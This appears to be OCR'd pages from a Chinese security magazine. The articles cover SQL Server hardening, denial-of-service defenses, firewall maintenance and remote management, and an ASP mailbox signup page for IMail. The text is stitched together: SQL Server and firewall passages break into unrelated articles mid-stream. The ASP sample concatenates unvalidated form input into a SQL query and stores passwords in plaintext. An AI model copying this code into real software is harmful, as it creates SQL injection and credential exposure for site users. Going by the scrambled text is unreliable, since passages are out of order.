


一个证书，至于证书的创建，这里不再赘述。另外，顺便说一句，SQL Server 2000使用Tabular Data Stream协议来进行网络数据交换，如果不加密的话，所有的网络传输都是明文的，包括密码、数据库内容等等，这对于数据库的安全来说，威胁是很大的，它能被人在网络中截获到他们需要的东西，包括数据库账号和密码。

# 阻断几种拒绝服务攻击的手段
文/李毅华

从去年七八月开始，拒绝服务攻击在网上风行一时，一年后的现在又有抬头之势。那么，我们除了用些防范软件外，是否还有其他办法呢？当然有，而且还不少。本文只针对几种特定的拒绝服务攻击做出处理方法。

所谓拒绝服务的攻击是指利用系统与程序本身设计缺陷占用系统资源，从而造成系统运行的迟缓或瘫痪。拒绝服务攻击降低了资源的可用性，这些资源可以是处理器、磁盘空间、CPU、打印机、调制解调器，甚至是系统管理员的时间，攻击的结果是使系统减少或者失去服务能力。由于网络对拒绝服务攻击的抵抗力有限，攻击者经常可以干扰合法用户正常使用网络和服务。目前，常见的针对网络的拒绝服务攻击有服务过载、消息流、“粘住”攻击和SYN-Flooding攻击等。

## 服务过载
当大量服务请求发向同一台计算机的服务守护进程时，就会产生服务过载。这些请求通过各种方式发出，而且许多都是故意的。在分时机制中，计算机需要处理这些潮水般涌来的请求，十分忙碌，以至无法处理常规任务，就会丢弃许多新请求。如果攻击的对象是一个基于TCP协议的服务，这些请求还会被重发，进一步加重网络的负担。

通常，管理员可以使用网络监视工具来发现这种攻击，通过主机列表和网络地址列表来分析问题的所在，也可以登录防火墙或路由器来发现攻击究竟是来自于网络外部还是网络内部。但是，无论是管理员还是普通用户都不能修改正在使用的协议和守护进程，大家所能做的就是采取措施，降低服务过载可能带来的危害。措施一：管理员可以将网络分成一些只有少数几台主机的子网，这样即使某一子网遭到此类攻击，也不会影响其他主机。措施二：管理员可以将网络检测器安装在网络中安全的地方，来监视网络内的数据流动，借助于打印出的主机底层和高层地址，可以分析数据包的传输，发现过载发生的位置。措施三：被攻击的服务有inetd进程时，使用nowait选项启动。

所以，在条件允许的情况下，最好使用SSL来加密协议。当然，你需要一个证书来支持。还有就是一定要备份你的证书，否则证书丢失，你真的会损失很大!

作为一个优秀的管理员，经常查看日志是最起码的能力，所以，要加强数据库日志的记录，审核数据库登录事件的“失败和成功”。在实例属性中选择“安全性”，将其中的审核级别选定为全部，这样，在数据库系统和操作系统日志里面，就详细记录了所有账号的登录事件。所以，必须要定期查看SQL Server日志检查是否有可疑的登录事件发生，或者在命令提示符使用如下的命令：

```
findstr /C:"登录" d:\Microsoft SQL Server\MSSQL\LOG\*.*
```

另外，一个优秀的管理员，还要具备一个最起码的素质就是经常备份，如果你从来不备份或者很少备份，那么你就根本没有资格做管理员，至少不是一个合格的管理员。备份对于数据库来说是非常重要的，这样可以在数据库受到损坏的时候，把损失降到最低!

经过以上的配置，我们的SQL Server就具备了一定的安全防范能力。但是，没有绝对的安全，特别是连入网络的服务器，其安全系数就更小了，这就对我们的管理员提出了很高的要求。平时勤打补丁、勤备份，多做安全检查。总之还是那句话：在安全上，无论怎样的小心都是不过分的!

注：在笔者撰稿的时候，听说SQL Server又出了大的漏洞，微软也出了相应的补丁，不知道你的补丁打了没有？

## 消息流
消息流经常发生在用户向网络中的目标主机大量发送数据包之时，消息流会造成目标主机的处理速度缓慢，难以正常处理任务。这些请求以请求文件服务、要求登录或者要求响应的形式，不断涌向目标主机，加重了目标主机的处理器负载，使目标主机消耗大量资源来响应这些请求。在极端的情况下，消息流可以使目标主机因没有内存空间做缓冲或发生其他错误而死机。

消息流主要针对网络服务器。一个被攻击的服务器可能在一段时间内无法响应网络请求。攻击者利用这个时机，编写程序来回答本来应该由服务器回答的请求。假设攻击者已经写了一个程序，每秒发送数千个echo请求到目标主机，借此来“轰炸”NIS服务器。同时，攻击者尝试登录到一台工作站的特权账户。这时，这台工作站将向真正的NIS服务器询问NIS口令。然而，真正的NIS服务器因正遭到攻击，不能迅速响应这个请求。这时，攻击者所在的主机便可以伪装成服务器，响应这个请求，并提供一个错误的信息，例如，说没有口令。在正常情况下，真正的服务器会指出这个包是错误的，但是，由于服务器负载过重，以至于它没有收到这个请求或者没有及时收到，不能做出响应。于是，那个发出请求的客户机便根据这个错误的回答，处理攻击者的登录请求。

对付这种攻击有效的办法是配置一个监视器，将网络分隔成小的子网。监视器有助于发现和阻止这种攻击，但并不能完全消除这种攻击。

## “粘住”攻击
许多Unix系统中的TCP/IP实现程序，存在被滥用的可能。TCP连接通过3次握手来建立一个连接。如果攻击者发出多个连接请求，初步建立了连接，但又没有完成其后的连接步骤，接收者便会保留许多这种半连接，占用很多资源。通常，这些连接请求使用伪造的源地址，系统没有办法去跟踪这个连接，只有等待这个连接因为超时而释放。

对付这种攻击，最好的办法是拒绝防火墙外面的未知主机或网络的连接请求，或者对使用的协议增加限制，但是任何固定的限制都是不适当的。用户可以修改操作系统的源码，使之有一个超时值，在拒绝新到来的连接之前，对同时存在的半连接数目有一个限制，但是修改操作系统的源码并不容易进行。

## SYN-Flooding 攻击
在SYN-Flooding攻击中，攻击者使用伪装地址向目标计算机尽可能多地发送请求，以达到多占用目标计算机资源的目的。当目标计算机收到这样的请求后，就会使用系统资源来为新的连接提供服务，接着回复一个肯定答复SYN-ACK。由于SYN-ACK被返回到一个伪装的地址，因此没有任何响应，于是目标计算机将继续设法发送SYN-ACK。一些系统都有缺省的回复次数和超时时间，只有回复一定的次数，或者超时时，占用的资源才会被释放。Windows NT 3.5x和4.0缺省设置可以重复发送SYN-ACK 5次。每次重新发送后，等待时间翻番。

用户可以使用Netstat命令来检查连接线路的目前状况，查看是否处于SYN-Flood攻击中。只要在命令行中输入`netstat -n -p tcp`，就显示出机器的所有连接状况。如果有大量的连接线路处于SYN-RECEIVED状态下，系统可能正遭受此类攻击。实施这种攻击的黑客无法取得系统中的任何访问权。但是对于大多数的TCP/IP协议栈，处于SYN-RECEIVED状态的连接数量非常有限。当到达端口的极限时，目标计算机通常作出响应，重新设置所有的额外连接请求，直到分配的资源被释放出来。

微软公司已经认识到Windows NT 3.5x和4.0存在的问题，并提供了相应的解决措施。不过，要想获得最大的安全性，用户需要启动应用和服务所必需的特定端口，而不要启动低于900的任何UDP端口，除非这些端口提供用户需要的具体服务，也不要启动支持UDP协议的echo(7)端口和chargen(19)端口，这些端口很少使用，是SYN-Flooding攻击的主要目标。

# 防火墙的维护
文 / 心羽

为了保护内部服务器免受黑客攻击，使用防火墙系统则为首选。它是防御薄弱的内部网与充满危险的互联网之间的惟一通道。防火墙通过安全策略，将整个内部网络的安全集中在自己身上。可见管理防火墙的重要性，而防火墙的维护则成了管理防火墙系统中的重中之重。

《黑防》第七期中的专题企划《网络防火墙技术研究》对防火墙从概念到实现原理、采用的技术到具体配置都作了比较详细系统的论述，是篇非常好的文章。这里所作的只是对其中没有提及的防火墙的维护以及与防火墙有关的几方面作些简单的介绍。

### 一、 防火墙的维护
防火墙建立完成后，还需要进行大量的维护工作才行，才能使它正常工作，有效地发挥其保护内部网络的作用。防火墙的主要维护工作有：

### 1. 监控防火墙
防火墙不是万能的，要有效发现和抵御入侵者，还是少不了防火墙维护者的监控。具体可以有以下几个方面：
- 安装监控设备。做监控需要一些专用监控设备。监控设备可以放在周边网上，这样只有用户所期望的包通过。其次，监控设备当然最好不要让入侵者发现，可以在网络接口上断开传输，这样入侵者就难以探测和使用了。
- 查看系统日志。理想的情况是知道防火墙的每一个抛弃的和接受的数据包，每一个连接的请求。但实际上，无论是防火墙还是防火墙维护者的“头脑”都无法处理这么多的信息。一般，维护者应该注意的日志有：1. 所有被抛弃的包、被拒绝的连接和尝试。2. 每一个成功的通过堡垒主机的时间、协议和用户名。3. 所有从路由器中发现的错误、堡垒主机和一些代理程序。
- 对入侵做出响应。防火墙维护者会遇到以下几种可疑的事件：1. 有攻击者试图入侵，但问题不大，只是试探一下。2. 有攻击者用尽各种方法极想进入，已是一次入侵。3. 入侵已然发生，日志被改或被删。4. 可能由于网络错误或未知道原因引起的，不属于安全问题。对于前三种情况，防火墙管理者要慎重处理。在今天的互联网上无聊的试探实在是太频繁了，虽然有权抗议并要求他们停止行动，但事实上却是无济于事，还是提高警惕为上策。而对于入侵行为或已经发现的入侵行为，如果有必要，用户可以请求安全机关的协助稽查入侵者。

### 2. 备份防火墙
众所周知，防火墙中如路由器等专用机的配置是非常麻烦的，它们的配置往往是由几十条甚至几百条的过滤规则组成的。这些设备一旦被入侵者或由于物理原因而损坏了，那么重新配置就又需要花大量的时间和精力，而且非常困难。同时，防火墙除了路由器等专用机，还包括一些服务器和主机等通用主机等，这些主机的数据一旦被破坏，想要恢复就不可能了。所以，有经济能力，特别是些重要部门的最好备份整个防火墙的所有部分。像路由器等专用机一般可以把它们的配置写进磁盘里，注明标签和日期。鉴于软盘易损坏，最好能多备份几张。对于一些服务器和主机等通用主机，可以定期备份到备份系统上。

### 3. 账户和磁盘空间管理
在防火墙中正确增加新用户、删除旧用户、定时改变密码是非常重要的。尽量使用程序增加账户，尽管在防火墙系统中用户不多，但用户中每位都可成为一个潜在的危险，因此，做些工作，保证每次都正确设置和管理用户定时改变密码是值得的。建立账号程序的日志，每隔几个月检查所有账户，不需要的关闭它。如果用户的操作系统支持重入功能，也启动它。

防火墙中各系统的日志及其他数据经常占满磁盘可用空间，管理者需要经常查看记录磁盘空间问题的日志记录和清理磁盘空间。事实上，许多入侵事件的发现就是管理人员在对其磁盘空间整理时发现的，因为某些零星的磁盘空间往往就是入侵者存放他们武器的仓库。

### 4. 升级和更新防火墙
一个称职的防火墙管理人员必须使其防火墙保持技术上的领先，因为互联网发展一日千里，每天都有新的漏洞被发现并被入侵者利用来进行新的攻击，防火墙技术也是日新月异，所以要同该领域的持续发展保持同步是防火墙维护最困难的部分。如何才能使防火墙一直处于领先地位呢?
- 订阅有关防火墙的邮件列表和新闻组，你可以定期收看到防火墙的信息。
- 访问相关网站和论坛，那里有最新的关于防火墙的设计、安装、配置、维护及各种防火墙的原理等知识。
- 杂志和专题讲座。许多电脑杂志都会有关于防火墙的介绍，只是不如网络上的快。有时相关组织也会不定期地开些关于防火墙专题讲座，参加这些活动也是大有好处的。

当然，不是说应用了所有的新技术，防火墙就是最领先了。管理者在收集足够多的相关信息后，根据自己所需的实际情况和要解决的问题决定是否要对防火墙进行升级和更新。

## 二、防火墙的缺陷
虽然防火墙的功能十分强大，能控制对受保护的内部网络非法访问，屏蔽内部网的拓扑结构等。但也有自身的限制，这些缺陷包括:
- 防火墙只实现了粗粒度的访问控制，并且不能与内部网络使用的其他安全机制集成使用。
- 防火墙无法防止病毒感染程序或文件的传输。因为在防火墙里面有各种操作系统和应用软件，所以要求防火墙扫描大流量的所有进来的各种格式的文件、电子邮件和消息是否有病毒，是不切实际也是不可能的。
- 防火墙也无法阻止绕过防火墙的攻击。我们知道，Internet 系统许多是通过拨号连接到 ISP 去的。如果防火墙内部有一个调制解调器池，那么攻击者就可以利用这个拨号服务绕过防火墙。
- 防火墙也无法阻止来自内部的威胁。事实上许多攻击都是来自于内部雇员或内部雇员与外部攻击者的“协作”。
- 防火墙难于管理和配置，容易造成安全漏洞。防火墙的管理及配置相当复杂，要成功维护好防火墙，管理员必须对各种攻击手法和系统配置有相当深刻的了解。但一个防火墙由多个系统(路由器，代理服务器，网关，堡垒主机等等)组成，有些疏忽是在所难免的。

## 三、虚拟专用网 VPN
《网络防火墙技术研究》文中有好几次提到了虚拟专用网 (VPN)，但是文中没有对其解释。有些朋友可能对此不太了解，这里简单介绍一下。当然它的功能也可以通过防火墙来实现。

虚拟专用网VPN(Virtual Private Network) 是通过对网络数据的封包和加密传输，在公用网上传输私有数据、达到私有网络的安全级别，使得敏感的数据不会被窃取。如果接入方式为拨号方式，则称之为 VPDN。VPN 实际上是一种服务，使用户感觉好像直接和他们的个人网络相连。它有两个特点:
- 它是虚拟的网，即没有固定的物理连接，网络只有用户需要时才建立。
- 它是利用公众网络设施构成的专用网。

VPN 具体实现是采用隧道技术，将内部网的数据封装在隧道中，通过 Internet 进行传输。因此，VPN 技术的复杂性首先建立在隧道协议复杂性的基础之上。现有的隧道协议中最为典型的有 GRE、IPSEC、L2TP、PPTP、L2F 等。众多 VPN 相关协议中，最引人注目的是 L2TP 与 IPSEC。其中 IPSEC 已完成了标准化的工作。

虚拟专用网 (VPN) 通过公众网络建立了私有数据传输通道，节省了费用开支，并且提供了安全的端到端的数据通讯，又充分利用现有网络资源，提供经济、灵活的连网方式，为客户节省设备、人员和管理所需的投资，降低用户的电信费用，在近几年得到了迅速的应用。

结语：上面这些只是对防火墙的一些简单补充。其实防火墙技术日新月异，要真正掌握防火墙的先进技术，保持领先地位，必须不断学习最新的技术。

# 防火墙远程管理技术
文/NetEye Support Team

## 一、远程管理
远程管理是防火墙产品的一种管理功能的扩展，也是防火墙非常实用的功能之一。用户可以利用防火墙的远程管理功能在办公室管理托管在电信部门的防火墙产品，甚至坐在家中就可以重新调整防火墙的安全规则和策略。

越来越多的用户将防火墙是否提供远程管理功能作为选择防火墙产品的重要参考指标之一。的确，防火墙的远程管理功能为用户的使用和对防火墙的管理提供了更加方便、快捷的手段。

## 二、目前主要的远程管理技术
目前防火墙产品的远程管理大致使用以下3种技术：一种是基于浏览器的Web界面管理方式；另一种是基于管理端软件的GUI界面；除此之外，还有基于命令行的CLI管理方式（一般通过串口进行配置）。

无论是Web界面管理方式还是基于管理端软件的GUI界面，管理界面一般需要完成对防火墙的配置、管理和监控。CLI命令行的管理方式适合对防火墙进行初始化、网卡配置等基本操作，不适合做丰富的管理功能。

GUI的管理方式：GUI直观，是一种重要的管理工具，适合对防火墙进行复杂的配置，管理多台防火墙，同时支持丰富的审计和日志的功能。

Web管理方式：Web界面管理方式是另一种管理工具。这种方式提供了简单的管理界面，适合那些功能不是很多的防火墙的管理工作。

CLI管理方式：这种方式不适合对防火墙进行管理，事实上，不太可能通过命令行的方式对一个具有复杂功能的防火墙进行很好的配置，它比较适合高级用户和厂商对防火墙进行调试。

## 三、几种技术比较
纵观当今国内外防火墙技术的发展不难看出，其实GUI是当前应用程序的趋势，其简单明了的特性为用户发挥产品功能提供了更好的条件。

大家知道，CISCO产品IOS提供比较全面的访问控制策略，但是却很少真正使用，是因为其使用非常不方便，因此，很多防火墙厂商不提供CLI模式，是要适应GUI需要，同时将更多的力量放到更安全的方面。

管理界面设计直接关系到防火墙的易用性和安全性。管理主机和防火墙之间的通信一般经过加密。国内比较普遍采用自定义协议、一次性口令进行管理主机与防火墙之间通信（适用GUI界面）。当然也有一些更安全的措施，比如NetEye防火墙除了支持一次性口令的认证之外，还支持了RSA公司的SecurID的Token令牌认证，为防火墙的管理提供了更加可靠的保证。

GUI界面可以设计的，比较美观和方便，并且可以自定义协议，也是被多数厂商使用的一个主要原因，这也是基于Web界面管理的防火墙无法做到的。一般基于Web管理界面的防火墙很少可以提供丰富的统计和审计功能，基本不能提供一些统计图和统计表。

一般管理端软件都是使用VB、VC语言开发的，也有部分厂家为了平台无关性而使用Java语言开发。Web界面仍有少数厂商使用，但由于防火墙核心部分因此要增加一个CGI解释部分，从而减少了防火墙的可靠性，而GUI界面只需要一个简单的后台进程就可以了。所以基于Web界面的防火墙管理方式应用不是太广泛。

目前国内大部分防火墙厂商还不是十分重视管理界面，大多做的比较粗糙，不是十分完善。反观之，管理界面固然很重要，然而它毕竟不是一个防火墙的全部，一个系统功能设计完善的防火墙，其管理部分必然容易设计。

注意：对于基于Web界面的管理方式存在被恶意用户或者黑客进行口令字攻击的风险。这种口令字攻击既可能来自外部，也可能来自内部。

随着企业信息化的提高，Intranet 的地位越来越与 Internet 比肩而坐。而电子邮件服务器系统则是 Intranet 企业应用中不可或缺的一环。UNIX/类 UNIX 平台下那些经典电子邮件服务器软件可谓曲高和寡，令非科班出身网友望而却步。故本文作者为大家推荐一款 Windows NT/2000 平台下简便实用的 MailServer ——IMail 7.X，通过它你同样可以完成原来看似“不可能完成的任务”。

## 给IMail 7.X
文/刘志勇

### 设计邮箱申请页面和汉化Web界面
电子邮件系统是 Internet/Intranet 不可或缺的系统。目前，在 Windows NT/2000 平台中，电子邮件服务器软件主要有微软公司的 Exchange Server，IBM 公司的莲花 Lotus Domino，这些比较著名的电子邮件服务器软件价格都不菲，而且体积很庞大，系统资源占用率比较高，所需硬件要求也比较高，且其设置也特别复杂。

在这里，笔者推荐一个比较优秀的电子邮件服务器软件——IPSwitch IMail Server 7。IMail 是一个 IPSwitch 公司出品的高性能的、基于标准的 SMTP、POP3、IMAP4、LDAP 等通讯协议的电子邮件服务器软件，还可以充当 Finger 服务器、whois 服务器、Pserv 服务器、Password 服务器等。相对于上述所提到的那些著名的电子邮件服务器软件，IMail 对硬件要求低，简单易用，使用直观的图形界面进行服务器的设置和用户管理，也支持多域名、远程管理、通过 Web 收发邮件、创建邮件列表、垃圾邮件处理等等功能。不仅如此，IMail 对账户数据库有 3 种选择：引用 NT 账户数据库、创建 IMail 自己的账户数据库、引用外部数据库。尤其 IMail 可以引用外部数据库，也是本文重点介绍的一个方面。

我们可以设想，管理员在家中打开电脑，调出 IE 浏览器，在 URL 栏输入公司防火墙的 IP 地址，这时 IE 显示出需要输入用户名和口令，网管输入了用户名和口令，回车后登陆进入防火墙。

这个过程如果换成一个恶意用户或者黑客，他完全可以同样调出 IE，连接防火墙，因为 Web 管理界面防火墙的用户名一般是固定的，比如 admin、fwadmin、Administrator 等，黑客可以在家中从容地猜测网管的口令，任意输入口令进行口令猜测。黑客攻击的手段一般采用穷举的办法。

但是在管理主机与防火墙通过单独接口通信的情况下，口令字攻击是不存在的。黑客没有防火墙的管理端软件是无法连接防火墙的，即使黑客得到了防火墙的管理端软件，多种认证方式也限制了黑客很难通过远程控制防火墙。

以上的观点从一些侧面反映出防火墙管理的一些趋势。一般来讲，基于 GUI 管理界面的防火墙要比基于 Web 界面管理的防火墙提供了更丰富的管理功能和更好的安全性，希望用户在选择防火墙的时候，根据自己的情况认真选择。

Web 界面防火墙登陆界面

## 一、IMail 前期准备

IMail 目前最新版本是 7.11。

笔者所在单位实现信息化建设时采用 IMail 7.05 做为局域网电子邮件服务器。用户可以通过 Web 界面更改自己的密码、个人资料、邮箱设置、邮件规则、自动回复、邮件转寄等进行个性化设置。但是，美中不足的是，IMail 没有邮箱申请页面，它需要管理员来完成添加用户；另外，它的 Web 界面是英文的，给英文基础差的用户造成了一定的不便。本文将讲述如何设计邮箱申请的页面和汉化 Web 界面。

本文是在 Windows 2000 Advanced Server 和 IMail 7.05 的平台下实现的，其实对 IMail 7.X 任何版本而言都是适用的。

在 IMail 的目录中建一个 Access 数据库 user.mdb，不添加任何表，在 IMail 添加用户后会自动在 user.mdb 数据库中创建表的结构和内容。

接下来为 IMail 设置 ODBC 数据源。在控制面板中的管理工具中，双击“数据源(ODBC)”，在 ODBC 数据源管理器窗口中，点击“系统 DSN”卡，按“添加(D)...”按钮，从出现的列表中选择“Microsoft Access Driver (*.mdb)”，然后点击“完成”按钮，见图 1。


然后在弹出的窗口中的“数据源名”填上：IMAILSECDB，这是 IMail 所默认的 ODBC 数据源名称，见图 2。

然后按“选择”按钮给此数据源选择数据库文件。见图 3。

选择刚才建立的数据库 user.mdb。这样，就完成了前期准备。


## 二、IMail 相关设置

安装 IMail 很简单，鉴于篇幅，加之本文并不是讲述 IMail 的安装和设置，只是讲述如何设计邮箱申请页面和汉化 Web 界面，笔者就不赘述了。安装的时候，只要注意安装程序询问采用哪种用户数据库的时候，选择“Use External User Database”，一定要选择这个选项。

如果先前已经安装 IMail，可以在管理员工具(IMail Administrator)更改用户数据库的设置，见图 4。


在“Use Database Type”对话框中选择“External Database”，就可以使用外部用户数据库，点击“Configure”按钮在弹出的窗口来查看、更改IMail的外部用户数据库设置，如图5所示。


图5

可以看到IMail默认的ODBC数据源名称是IMAILSECDB，由于此前已经设置好相应的数据源，所以此处不做任何改动。

此时user.mdb内容是空的，没有任何表，在IMail Administrator中添加一个用户后，IMail就在user.mdb中建立了表和内容。

至此，就做完了相关准备，接下来就讲述如何设计邮箱申请页面了。

## 三、设计申请邮箱页面

先想一下思路。网站上的免费邮箱都是先罗列条款，然后让用户填写真实姓名、邮箱账户、邮箱密码等等相关信息。由于是在单位的Intranet使用，没必要那样条条框框，笔者的观点：简单实用就是美。可以这样设想：在单位的Web主页设立一个申请邮箱的连接，然后转到申请邮箱的页面，用户填完信息后，提交给服务器，如果成功就返回一个成功的通知页面，在该页面可以知道POP3、SMTP等相关信息并从此页面登陆Web形式的页面。这里可以用ASP、或PHP甚至CGI等。鉴于ASP的流行程度，本文将讲述利用ASP设计邮箱申请页面。其实用哪种平台（ASP、PHP……）都可以，就看系统平台的设置和管理员的喜好了。

先在那个主页的合适位置上写一行代码：

```
<a href="http://fcceec.net/mail/">申请公司电子邮箱</a>
```

此目的是点击这个超连接后就跳转到申请邮箱的页面。

然后编写一个让用户填写相关信息来申请邮箱的页面：useradd.html，此文件的作用是要求用户填写真实姓名、所要申请的邮箱账户、邮箱密码等信息，最后提交给ASP页面来处理，编写一个ASP页面：useradd.asp，它的作用是在接受到用户提交的信息后，检查邮箱账户是否已经被人占用，如果没有被占用就将用户提交的信息写入IMail的外部用户数据库user.mdb，否则让用户重新申请。

基于这样的思路，我们可以使用VBScript语言来写供用户填写信息的html文件。

首先，先判定用户提交的邮箱账户是否合法。所谓合法，就是账户不能含有@符号和空格。代码如下：

```
function isEmail(val)
    e=val.value
    if instr(e,"@")=0 and instr(e," ")=0 then
        isEmail=true
    else
        MsgBox " 邮箱账户中不能含有 @ 符号或空格 "
        val.select
        isEmail=False
    end if
end function
```

为了便于辨认，邮箱账户不能短于一定的长度，要检查账户的名称的长度是否短于规定的长度。代码如下：

```
function isLength(val,n)
    if len(val.value)>=n then
        isLength=true
    else
        MsgBox " 至少填入" & cstr(n) & "个字符！"
        val.select
        isLength=false
    end if
end function
```

最后验证两次输入的密码是否一样，代码如下：

```
function check()
    if not isLength(document.form1.txtID,3) then
        exit function
    elseif not isEmail(document.form1.txtID) then
        exit function
    elseif not isLength(document.form1.txtPSW,4) then
        exit function
    elseif document.form1.txtPSW.value<> document.form1.txtPSW2.value then
        msgbox "两次输入的密码不一样!请重新输入!"
        exit function
    end if
    document.form1.submit()
end function
```

在html文件中引用asp文件useradd.asp:
```
<form method="post" action="useradd.asp" name="form1">
```
此HTML文件的完整源代码附后，文件名是useradd.html。

接下来撰写useradd.asp。
必须定义IMail的用户数据源的位置，然后从useradd.html得到相关的表单，判断所提交的账户名是否已经存在，如果存在就提示账户已经被别人已经占用。否则，就将得到的表单信息写入IMail用户数据库生成邮箱账户。关键代码如下：

```
<%response.expires=0%>
<%
dim recUserAdd
dim newFloder,f
dim IMaildir
IMaildir="d:\IMail\users"
'用户邮箱存放目录；视IMail的安装目录而定，此处是d:\IMail\users\。
dbname="DSN=IMailSecDB"
'指定IMail的ODBC数据源
userid=request.form("txtID")
nameid=request.form("nmID")
set recUserAdd=server.createobject("adodb.recordset")
ssql="select * from fcceec_net where userid="&""&userid&"""
'此处IMail的域名是fcceec.net，在user.mdb中的表里表示为fcceec_net。如用户的IMail的域名是mail.hacker.com.cn，则应写为：mail_hacker_com_cn。以此类推。
recUserAdd.open ssql,dbname,1,3
'下面是验证所提交的账户名称是否已使用，如果已存在就提示出错信息，否则继续处理
if not recUserAdd.eof then
    response.write("<h1>错误：用户已存在!</h1>请使用其他名称。<br>")
    response.write("<a href='useadd.html'>返回申请页面</a>")
else
    '根据useradd.html所提交的信息往IMail的用户数据库添加信息
    password=request.form("txtPSW")
    recUserAdd.addnew '向数据库添加用户记录
    recUserAdd("userid")=userid '添加邮箱账户名称
    recUserAdd("password")=password '添加邮箱口令
    recUserAdd("fullname")=nameid '添加用户真实姓名
    recUserAdd("userdir")=IMaildir&userid '添加用户邮箱的存放目录
    recUserAdd("mailaddr")=userid&"@fcceec.net" '添加用户的电子邮箱地址
    recUserAdd("maxsize")=1024000 '定义用户邮箱最大容量为1024000字节
    recUserAdd("maxmsgs")=0 '定义用户收件箱收到邮件数目没有限制
    recUserAdd("flags")=128 '定义用户的类型：普通用户，可以使用Web界面。
    recUserAdd("type")=0
    recUserAdd.update '更新外部用户数据库
    '以下为出错处理
    on error resume next
    set newfloder=server.createobject("scripting.filesystemobject")
    application.lock
    set f=newfloder.createfolder(IMaildir&userid)
    application.unlock
    set f=nothing
%>
```

最后在<html></html>之间加上相关语句就可以了，在相应地方写上“<%=变量名%>”就能显示。
完整的源代码附后。文件名是useradd.asp。
把这两个文件放在一个文件夹，如 D:\wwwroot\mail。然后在IIS设置一个虚拟目录，

